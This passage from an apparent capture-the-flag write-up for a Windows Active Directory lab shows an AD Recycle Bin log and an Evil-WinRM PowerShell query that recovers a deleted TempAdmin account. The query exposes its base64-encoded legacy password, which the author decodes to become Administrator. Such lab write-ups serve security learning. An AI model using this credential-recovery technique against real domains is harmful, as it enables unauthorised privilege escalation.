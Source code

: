 ````bash
❯ cat ArkAdRecycleBin.log
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: ArkAdRecycleBin.log
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 1/10/2018 15:43 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
   2   │ 1/10/2018 15:43 [MAIN_THREAD]   Validating settings...
   3   │ 1/10/2018 15:43 [MAIN_THREAD]   Error: Access is denied
   4   │ 1/10/2018 15:43 [MAIN_THREAD]   Exiting with error code 5
   5   │ 2/10/2018 15:56 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
   6   │ 2/10/2018 15:56 [MAIN_THREAD]   Validating settings...
   7   │ 2/10/2018 15:56 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
   8   │ 2/10/2018 15:56 [MAIN_THREAD]   Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
   9   │ 2/10/2018 15:56 [MAIN_THREAD]   Successfully moved object. New location CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
  10   │ 2/10/2018 15:56 [MAIN_THREAD]   Exiting with error code 0   
  11   │ 8/12/2018 12:22 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
  12   │ 8/12/2018 12:22 [MAIN_THREAD]   Validating settings...
  13   │ 8/12/2018 12:22 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
  14   │ 8/12/2018 12:22 [MAIN_THREAD]   Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
  15   │ 8/12/2018 12:22 [MAIN_THREAD]   Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
  16   │ 8/12/2018 12:22 [MAIN_THREAD]   Exiting with error code 0
````

So, we will leverage our **AD Recycle Bin** privileges to retrieve information about the **Temp Admin** account.

````powershell
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -ldapfilter "(&(ObjectClass=user)(DisplayName=TempAdmin)(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
````

# LOG IN AS ADMINISTRATOR 
---

We found the credentials encoded in **Base64**, so we simply decoded them and finally became **Administrator**.
